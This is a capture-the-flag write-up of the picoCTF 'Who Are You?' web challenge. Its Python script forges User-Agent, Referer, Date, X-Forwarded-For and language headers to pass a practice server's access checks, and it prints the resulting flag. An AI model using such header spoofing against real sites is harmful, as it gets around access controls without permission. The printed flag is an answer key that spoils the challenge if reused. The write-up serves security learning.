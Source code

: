 ```yaml
---
title: PicoCTF - Who Are You?
date: Wed Jul  5 07:02:28 PM +04 2023
categories: [Writeup]
tags: [ctf,picoctf,picoctf2021,web]
---
```


## Who are you?

AUTHOR:  MADSTACKS

### Description

Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn  [http://mercury.picoctf.net:46199/](http://mercury.picoctf.net:46199/)

<details>
<summary>Hint</summary>
It ain't much, but it's an RFC: https://datatracker.ietf.org/doc/html/rfc2616
</details>

### Solution

```py
import requests
import re

URL = 'http://mercury.picoctf.net:46199'

HEADERS = {
    # 1. Only people who use the official PicoBrowser are allowed on this site!
    # https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent
    'User-Agent': 'PicoBrowser', 

    # 2. I don't trust users visiting from another site.
    # https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer
    'Referer': URL,
    
    # 3. Sorry, this site only worked in 2018.
    # https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Date
    'Date': 'Wed, 21 Oct 2018 07:28:00 GMT',
    
    # 4. I don't trust users who can be tracked.
    # https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/DNT
    'DNT': '1',
    
    # 5. This website is only for people from Sweden.
    # https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For
    'X-Forwarded-For': '109.75.224.0', # Random IP From Google Search
    
    # 6. You're in Sweden but you don't speak Swedish? 
    # https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Language
    'Accept-Language': 'sv',  
    
    # What can I say except, you are welcome
}

resp = requests.get(URL, headers=HEADERS).text
flag = re.search(r"<b>(picoCTF.*)</b>", resp).group(1)
print(flag)
```

> Flag: picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_8d5d8d77}
{: .prompt-tip }